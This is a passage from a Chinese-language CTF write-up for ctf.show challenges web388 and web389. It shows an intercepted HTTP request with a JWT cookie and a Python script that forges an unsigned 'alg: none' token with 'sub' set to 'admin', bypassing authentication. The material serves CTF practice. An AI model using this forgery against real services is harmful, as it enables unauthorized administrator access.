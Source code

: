 ## web388

同上

## web389

在 web 387 上加上了 jwt

```http
GET /alsckdfy/ HTTP/1.1
Host: 1384ae6c-918d-45c9-ba93-1addbb0be926.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5MTUwMDI5MSwiZXhwIjoxNjkxNTA3NDkxLCJuYmYiOjE2OTE1MDAyOTEsInN1YiI6InVzZXIiLCJqdGkiOiIzYjBkZmZhMjgyN2YwNGZjODM0ZDdlMmZkMjFiNjhjMSJ9.kcglW6nteMwMBWcY58lod3x0PL4jNiuA03PjupDM9is
Connection: close
```

查看并且修改 Cookie，修改为空算法,`sub` 字段改为 `admin`

```python
import time
import jwt

# payload
token_dict = {
  "iss": "admin",
  "iat": 1691500918,
  "exp": 1691508118,
  "nbf": 1691500918,
  "sub": "admin",
  "jti": "a09eac31f3446941e8aca51cd7a5931d"
}

# headers
headers = {
  "alg": "none",
  "typ": "JWT"
}

jwt_token = jwt.encode(token_dict,  # payload, 有效载体 
					   key='',
                       headers=headers,  # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
 					   algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       ).decode('ascii')  # python3 编码后得到 bytes, 再进行解码(指明解码的格式), 得到一个str
print(jwt_token)
```
